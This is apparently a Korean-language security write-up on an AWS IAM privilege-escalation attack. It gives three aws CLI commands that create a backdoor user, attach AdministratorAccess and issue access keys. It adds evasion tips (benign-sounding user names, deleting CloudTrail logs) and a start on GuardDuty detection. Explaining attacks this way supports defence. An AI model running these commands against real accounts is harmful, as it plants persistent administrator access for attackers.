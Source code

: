 ### 공격 단계

#### 1단계: 새로운 IAM 사용자 생성

```bash
aws iam create-user --user-name attacker-admin
```

**공격자 의도:**
- 일반적인 사용자명을 사용하여 탐지를 회피
- 정상적인 운영 활동으로 위장
- 예시: `backup-service`, `monitoring-user`, `support-admin` 등

#### 2단계: 관리자 권한 정책 연결

```bash
aws iam attach-user-policy --user-name attacker-admin --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

**결과:**
- 생성된 사용자가 AWS 계정 내 모든 리소스에 대한 완전한 제어 권한 획득
- 권한 상승(Privilege Escalation) 완료

#### 3단계: 프로그래밍 접근을 위한 액세스 키 발급

```bash
aws iam create-access-key --user-name attacker-admin
```

**활용 방안:**
- AWS CLI, SDK, Terraform 등을 통한 지속적 접근
- 백도어 계정으로 활용
- 추가 공격 인프라 구축

### 공격 후 가능한 악의적 행위

1. **데이터 유출**: S3 버킷, RDS 데이터베이스 접근
2. **리소스 생성**: 암호화폐 채굴용 EC2 인스턴스 생성
3. **추가 계정 생성**: 공격 지속성 확보
4. **로그 삭제**: CloudTrail 로그 삭제로 흔적 제거
5. **네트워크 변경**: 보안 그룹, VPC 설정 변경

---

## 탐지 및 방어 방안

### AWS GuardDuty를 활용한 실시간 탐지

GuardDuty는 다음과 같은 권한 상승 시도를 자동으로 탐지합니다:

- `PrivilegeEscalation:IAMUser/AdministrativePermissions`
- `PrivilegeEscalation:IAMUser/PermissionPolicy`
- `PrivilegeEscalation:IAMUser/UpdateAssumeRolePolicy`
